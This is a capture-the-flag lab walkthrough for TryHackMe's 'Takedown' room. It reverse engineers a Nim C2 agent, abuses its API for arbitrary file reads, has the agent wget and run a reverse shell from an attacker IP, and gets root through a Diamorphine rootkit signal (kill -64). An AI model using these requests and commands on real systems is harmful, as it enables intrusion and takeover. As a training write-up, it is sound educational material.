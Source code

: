 # Takedown

https://tryhackme.com/room/takedown

Rated "INSANE"

This room has several parts: 

- finding a c2 agent binary on the webserver
- reverse engineering the binary to work out how to communicate with the c2
- asking the c2 to run commands on the webserver, getting a reverse shell
- leveraging a local kernel exploit to get root.

The reverse engineering is probably the longest bit, as its a nim binary and comes out as a bit of a mess in ghidra, but its not too bad.

1. The server exposes ports 22 and 80. On 80 is an 'infinity' website, just basic brochureware. Under /images is a file called shutterbug.jpg.bak which when downloaded is revealed to be a ELF64 binary. Additionally, the favicon.ico on the site is a windows binary - these are the same binary compiled for different architectures.
2. Opening whichever binary in Ghidra, it can be seen they are Nim binaries with the main function being NimMainModule.

Reverse engineering is a slow process - work out what something does, renaming variables and globals as you go to keep track. In brief the binary follows these steps:

- checks command line options: there are just two, -h and -v. -v enables verbose mode which will print out info messages
- checks the current username by running 'whoami'. If it is not the hardcoded value 'c.oberst', the process exits
- registers with the c2 server using a randomly generated UID and the current hostname.
- polls the c2 server's command endpoint for commands to run

The commands it runs are upload (download a file from the c2 server to a local directory), download (upload a file to the c2 server), id, pwd, whoami, hostname, and exec which runs a command on the client server.

The command polling, running upload and download etc all involve calling the c2 server - the request must use a specific user agent, and use a registered 'agent' uid, but otherwise there is no auth or encryption. Since these calls can be made just over HTTP, the binary (and the keyed username c.oberst) are not required. HTTP request samples are below in an appendix.

Using the 'upload' call, its possible to read arbitrary local files on the c2 server. Using this and reading /proc/N/cmdline, (N being a number from 0 to whatever) its possible to find the commandline used to run the c2 server, which reveals the python file. This can then be read to get the full source code of the API and work out what can be done.

From this, the agent UID of the running agent on the webserver can be found. It can also be discovered that posting to /api/agents/webserver-uid/command allows specifying a command the agent should run next. This can be used to compel the webserver to download a reverse shell binary and then run it, which will get you a shell on the webserver and the user flag.

The final step to get root is a little tricky - the machine is hardened so nothing obvious will stand out. The intended path (its possible subsequent linux exploit bugs will also work) involves discovering that /dev/shm, a directory that is usually empty, in fact contains the cloned source code of the [diamorphine](https://github.com/m0nad/Diamorphine) kernel rootkit, implying this is installed. THis makes root privesc easy: simply send the 64 signal to any process, e.g. by finding a random process id and then executing `kill -64 pid`. This will instantly make the current user (webadmin-lowpriv) a root user, and you can get the final flag.

## Example Web Requests to the C2 Server.

The key to all of these is the 'keyed' user agent, which must be present or the request will be rejected.

Registering a new agent:

```
POST /api/agents/register HTTP/1.1
Host: takedown.thm.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
Connection: close
Content-Type: application/json
Content-Length: 43

{"uid":"fakeuid","hostname":"fakehost"}
```

Reading commands to invoke from the c2 (not necessary for walkthrough):

```
GET /api/agents/fakeuid/command HTTP/1.1
Host: takedown.thm.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
Connection: close
```

Reading arbitrary files on the c2:

```
POST /api/agents/fakeuid/upload HTTP/1.1
Host: takedown.thm.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
Connection: close
Content-Type: application/json
Content-Length: 22

{"file":"bar.txt"}

```

Writing arbitrary files on the c2 (not necessary for walkthrough):

```
POST /api/agents/fakeuid/download HTTP/1.1
Host: takedown.thm.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
Connection: close
Content-Type: application/json
Content-Length: 45

{"file":"test.txt",
"data":"test"
}
```

asking the webserver agent to download a revshell:

```
POST /api/agents/bmir-lkoz-mxkk-apfq/exec HTTP/1.1
Host: takedown.thm.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5
Connection: close
Content-Type: application/json
Content-Length: 48

{"cmd":"exec wget 10.10.18.252:1234/client"}


```

exec is one of the c2 commands that invokes a system shell execute. the result is not returned. invoking the revshell above was done with `exec chmod +x client && ./client`.
